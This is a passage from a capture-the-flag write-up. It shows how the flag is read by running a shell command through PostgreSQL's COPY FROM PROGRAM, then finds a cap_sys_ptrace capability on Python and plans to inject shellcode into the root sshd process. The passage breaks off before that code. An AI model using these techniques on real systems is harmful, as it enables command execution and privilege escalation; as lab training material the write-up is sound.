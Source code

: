 We don't know what databases exist (may be able to find them elsewhere on the system, but I didn't check), so we'll use one that's likely to exist by default: `template1`.

``` text
chosen@b78b6d382aea:/home/dusk$ psql -U dusk template1
Password for user dusk:
psql (12.2 (Debian 12.2-2.pgdg100+1))
Type "help" for help.
template1=#
```

Let's try reading the flag file.

``` text
template1=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
template1=# COPY cmd_exec FROM PROGRAM 'cat /home/dusk/flag.txt'; SELECT * FROM cmd_exec;
cmd_output
flag{crystal_clear}
```

**Flag:** `flag{crystal_clear}`

## Escalator 4

### Escalator 4 - Challenge

What is root's flag?

### Escalator 4 - Solution

This one has quite a point difference compared to the other flags. Endgame.
We burn through all the common low-hanging fruit, check through a lot of misconfigurations, and finally come across something interesting by checking binary capabilities.

{% highlight bash %}
chosen@b78b6d382aea:/$ getcap -r / 2>/dev/null
{% endhighlight %}

``` text
/usr/bin/python3.7 = cap_sys_ptrace+ep
```

If you're unfamiliar with newer Linux systems, there are "capabilities" that allow a binary to run privileged operations.
In this instace `python3.7` has the ability to use `ptrace` capabilities.
`cap_sys_ptrace` is permission to debug.
Given this capability, we can pause, modify, and restart any process running on the system.
We'll use this to pause a process running as root, inject shellcode, and run it with those permissions.
The only process running as root is `sshd`, but luckily it spawns each ssh session in a new thread, so we don't have to worry about our connection.

I wasn't incredibly familiar with how to do this in Python, so I spent a good amount of time digging through some resources before a member of my team pointed me to a similar challenge from PentesterAcademy: <https://attackdefense.com/challengedetailsnoauth?cid=1412>
The code was for the wrong Python version and a bit more than I was looking for, but I was eventually able to make some conversions and boil it down to what I was looking for into the following.
